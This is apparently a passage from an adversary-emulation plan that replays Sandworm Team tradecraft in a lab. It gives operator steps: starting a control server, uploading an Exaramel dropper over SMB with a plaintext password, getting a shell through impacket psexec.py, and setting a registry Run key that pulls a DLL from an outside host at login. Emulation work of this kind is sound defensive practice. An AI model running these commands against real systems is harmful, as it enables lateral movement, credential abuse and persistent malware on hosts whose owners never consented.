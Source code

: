 Double click the terminal tab to change its name. Name your terminal tab "control server" for easy identification.

```bash
cd wizard_spider/Resources/control_server && sudo ./controlServer
```

:warning: Go back to your first terminal tab (P.A.S. Webshell); re-name it "PsExec-Gammu".

Upload Exaramel-Windows-Dropper.exe to gammu/10.0.1.7 as `C:\Windows\wsmprovav.exe`.

```bash
# Sandworm Team has pushed additional malicious tools onto an infected system to steal user credentials, move laterally, and destroy data.

# Sandworm Team have used previously acquired legitimate credentials prior to attacks.

smbclient -U 'WORKGROUP\fherbert' //10.0.1.7/ADMIN$ -c "put sandworm/Resources/Exaramel-Windows-Dropper/wsmprovav.exe wsmprovav.exe;" "Whg42WbhhCE17FEzrqeJ"
```

Use psexec.py to gain a bind-shell to gammu/10.0.1.7 over SMB (TCP 445):

```bash
# Sandworm-associated malware including Olympic Destroyer, BlackEnergy, and notPetya use PsExec to interact with the ADMIN$ network share to execute commands on remote systems.

# The Exaramel for Windows dropper creates and starts a Windows service named wsmprovav with the description "Windows Check AV."

/usr/share/doc/python-impacket/examples/psexec.py -service-name "Windows Check AV" WORKGROUP/fherbert@10.0.1.7
```

Enter password:

`Whg42WbhhCE17FEzrqeJ`

:warning: Observe the PsExec binary name, and paste it in the Slack chat for easy identification:

```bash
# Your EXE name will differ

[*] Uploading file enTHfBuw.exe
```

Load the registry hive for user fherbert.

```bash
reg.exe LOAD HKU\Temp "C:\Users\fherbert\NTUSER.DAT"
```

Set registry persistence for user fherbert only.

This will execute a Exaramel-Windows dropper on fherbert login.

```bash
# Sandworm associated malware such as Exaramel-Windows and Olympic Destroyer have modified the registry.

# Sandworm Team used a backdoor which could execute a supplied DLL using rundll32.exe.
```
```bash
reg.exe ADD HKU\Temp\Software\Microsoft\Windows\CurrentVersion\Run /t REG_EXPAND_SZ /v SecurityHealth /d "C:\Windows\wsmprovav.exe http://192.168.0.4:8080/getFile/wsmprovav.dll C:\Windows\wsmprovav.dll"
```
